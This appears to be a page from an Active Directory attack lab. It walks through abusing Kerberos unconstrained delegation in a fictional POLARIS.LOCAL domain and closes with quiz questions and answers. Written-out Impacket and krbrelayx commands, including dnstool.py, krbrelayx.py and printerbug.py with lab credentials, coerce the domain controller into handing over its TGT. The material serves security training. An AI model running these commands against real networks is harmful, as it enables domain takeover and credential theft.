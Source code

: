 #Unconstrained delegation abuse

This attack is performed by using a compromised service account that is configured to perform unconstrained delegation. Once an attacker has compromised any user account, it can query the domain's database using LDAP, in order to check which accounts are configured for delegation. This can be done by using the 'findDelegation.py' script from Impacket. You may use Jesse Pinkman's credentials, cracked in the AS-REP roasting attack.  

```
findDelegation.py POLARIS.LOCAL/jesse.pinkman:Wang0Tang0! -target-domain polaris.local
```

The output from the script tells the attacker which accounts are configured for which type of delegation. Namely, the attacker notes that the jesse.pinkman account is configured for unconstrained delegation. This means that through the use of this account, the attacker can retrieve TGTs from users that authenticate to it.

Now, the objective in this exercise is to steal the DC account's TGT. The DC account can be coerced into authenticating to the attacker's machine through the use of the Printer Bug. If the DC authenticates to the attacker machine, the attacker can then retrieve its TGT, and impersonate the DC to any service on the domain.

To properly trigger the Printer Bug and coerce the DC to authenticate to the attacker using Kerberos, there must be a DNS record that resolves the jesse.pinkman.polaris.local hostname to the attacker's IP address. This is required since if IP addresses are used to trigger authentication, Windows falls back to NTLM. To create this record, the 'dnstool.py' script from the krbrelayx toolkit can be used, since authenticated users can create  DNS records. In the 'krbrelayx' directory, run:

```
python3 dnstool.py -u polaris\\jesse.pinkman -p 'Wang0Tang0!' captain.polaris.local --zone polaris.local -r jesse.pinkman.polaris.local -a add -t A -d 192.168.122.2
```

At this point, there's a DNS record resolving Jesse's hostname to the attacker's IP address. Upon DC authentication to Jesse, the DC will query DNS and be tricked into thinking that the attacker's IP is actually Jesse's IP.

At this point, the printer bug can be executed, which will trigger Kerberos authentication from the DC to the attacker. Since the DC assesses that Jesse is configured for unconstrained delegation, it will include its own TGT within the AP-REQ sent to the attacker's machine. The attacker will then use Jesse's password to decrypt the AP-REQ section that includes a session key. This session key is necessary to use the TGT, and will also be sent to Jesse, as per unconstrained delegation behavior. Once this session key is obtained, the attacker can then use the DC's TGT arbitrarily.

To do so, in one terminal, the 'krbrelayx.py' script must be running. Once that script is running and waiting for the DC to authenticate to the attacker, the attacker will execute the printer bug in a second terminal, using the 'printerbug.py' script. The Printer Bug will coerce the DC to authenticate to the attacker's machine.

```
#In a first terminal, run the krbrelayx.py script. To be able to do so, you must stop the DNS service running on your machine
#First, stop DNS service
systemctl stop systemd-resolved 
#Now, run the krbrelayx script
sudo -E python3 krbrelayx.py -s jesse.pinkman -p Wang0Tang0!
#Now in a second terminal, run the printer bug in order to trick the DC into authenticating to the attacker using Kerberos
python3 printerbug.py POLARIS/jesse.pinkman:'Wang0Tang0!'@captain.polaris.local jesse.pinkman.polaris.local
#At this point you can restart the DNS service
systemctl start systemd-resolved 
```

At this point, the attacker has successfully retrieved the CAPTAIN DCs own TGT, which can be used to impersonate the DC to any service in the domain.


!!! question
    Why is the service's (Jesse's) password required to retrieve the DC's TGT? 

??? success "Answer"
    The service password is required since in Kerberos Unconstrained Delegation, the DC's TGT is sent to the attacker, along with a session key. This session key is encrypted using the service account's (Jesse) password. Using Jesse's password, the attacker can retrieve this session key and use it in new TGS exchanges, leveraging the own DC's TGT, and therefore impersonating the DC. 

!!! question
    Would the DC send its TGT to the attacker if constrained delegation was used, instead of unconstrained delegation?

??? success "Answer"
    The DC would not send its TGT if instead constrained delegation was used. This only happens in unconstrained delegation and is considered unsecure.

!!! question
    Which Windows service is exploited by the Printer Bug to trigger authentication from a target system?
??? success "Answer"
    The Printer Bug abuses the Windows Print Spooler service to coerce a target to authenticate to the attacker.


